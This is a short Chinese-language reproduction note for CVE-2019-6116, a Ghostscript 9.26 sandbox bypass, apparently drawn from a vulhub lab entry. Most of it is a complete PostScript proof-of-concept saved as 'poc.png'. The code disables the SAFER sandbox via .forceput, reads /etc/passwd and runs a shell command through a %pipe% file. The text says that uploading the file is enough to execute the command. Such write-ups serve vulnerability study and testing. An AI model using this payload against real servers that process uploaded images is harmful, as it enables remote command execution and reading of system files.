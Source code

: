 （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞
=====================================================

一、漏洞简介
------------

Ghostscript
9.26版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

二、漏洞影响
------------

Ghostscript 9.26版本

三、复现过程
------------

**poc.png**

    %!PS
    % extract .actual_pdfpaintproc operator from pdfdict
    /.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

    /exploit {
        (Stage 11: Exploitation...)=

        /forceput exch def

        systemdict /SAFER false forceput
        userparams /LockFilePermissions false forceput
        systemdict /userparams get /PermitFileControl [(*)] forceput
        systemdict /userparams get /PermitFileWriting [(*)] forceput
        systemdict /userparams get /PermitFileReading [(*)] forceput

        % update
        save restore

        % All done.
        stop
    } def

    errordict /typecheck {
        /typecount typecount 1 add def
        (Stage 10: /typecheck #)=only typecount ==

        % The first error will be the .knownget, which we handle and setup the
        % stack. The second error will be the ifelse (missing boolean), and then we
        % dump the operands.
        typecount 1 eq { null } if
        typecount 2 eq { pop 7 get exploit } if
        typecount 3 eq { (unexpected)= quit }  if
    } put

    % The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some
    % executable arrays onto the operand stack that contain .forceput, but are not
    % marked as executeonly or pseudo-operators.
    %
    % The routine was attempting to pass them to ifelse, but we can cause that to
    % fail because when the routine was declared, it used `bind` but many of the
    % names it uses are not operators and so are just looked up in the dictstack.
    %
    % This means we can push a dict onto the dictstack and control how the routine
    % works.
    <<
        /typecount      0
        /PDFfile        { (Stage 0: PDFfile)= currentfile }
        /q              { (Stage 1: q)= } % no-op
        /oget           { (Stage 3: oget)= pop pop 0 } % clear stack
        /pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op
        /gput           { (Stage 5: gput)= }  % no-op
        /resolvestream  { (Stage 6: resolvestream)= } % no-op
        /pdfopdict      { (Stage 7: pdfopdict)= } % no-op
        /.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index
        /pdfdict        { (Stage 9: pdfdict)=
            % cause a /typecheck error we handle above
            true
        }
    >> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

    (Should now have complete control over ghostscript, attempting to read /etc/passwd...)=

    % Demonstrate reading a file we shouldnt have access to.
    (/etc/passwd) (r) file dup 64 string readline pop == closefile

    (Attempting to execute a shell command...)= flush

    % run command
    (%pipe%id > /tmp/success) (w) file closefile

    (All done.)=

    quit

上传这个poc文件，即可执行`id > /tmp/success`：

![](./.resource/(CVE-2019-6116)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2019-6116/
